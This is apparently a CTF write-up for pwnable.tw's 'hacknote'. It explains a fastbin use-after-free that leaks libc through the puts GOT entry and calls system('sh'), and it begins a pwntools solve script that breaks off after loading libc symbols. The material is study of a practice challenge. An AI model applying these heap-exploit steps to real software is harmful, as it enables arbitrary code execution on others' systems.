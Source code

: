 ```cpp
  }
  return;
}
```

What we can probably do is overwrite `note->addr` with a call to `system` and then call `print_note` to spawn a shell.

To leak the libc address we need to print the contents of a GOT entry, such as the entry of `puts` in the GOT. To do this we need to use a UAF and overwrite the `note->addr` pointer with the address of the GOT entry for `puts` by overwriting the pointer to the note's struct as that is what is malloc'd.

To do this and utilize the UAF we can:

```
malloc note0: struct 8, contents 8
malloc note1: struct 8, contents 8

free note1, note0

malloc note2: struct 8, contents 32
	note2 struct <-> note0 struct as note0 struct is popped from fastbin
	note2 contents will be in a different bin
malloc note3: struct 8, contents 8
	note3 struct <- note0 contents as that is next to be popped
	note3 contents -> note1 struct, overwrites the pointer
```

this means that we can set the contents of note3 (with add note) to the print function and the address of the puts@got and it will print that when note1 is printed, as the note3 contents pointer is pointing to the same region as the note1 struct pointer.

After this is leaked, we need to set the pointer so we can call system. we can build upon the previous malloc and frees:

```
free note3

malloc note4: struct 8, contents 8
	note4 struct <-> note3 struct <-> note0 contents
	note4 contents <-> note3 contents <-> note1 struct
```

The note4 contents will then be pointed to by the note1 struct pointer, and when print on note1 is called it will spawn a shell using the system address and sh string set as the note4 contents.

solution script:


```py
from pwn import *

def start():
    global p
    if args.REMOTE:
        p = remote("chall.pwnable.tw", 10102)
    else:
        p = elf.process()

context(os="linux")
context.binary = elf = ELF("./hacknote")
context.terminal = '/bin/sh'
libc = ELF('./libc_32.so.6')
start()


libc_system = libc.symbols["system"]
libc_puts = libc.symbols["puts"]
```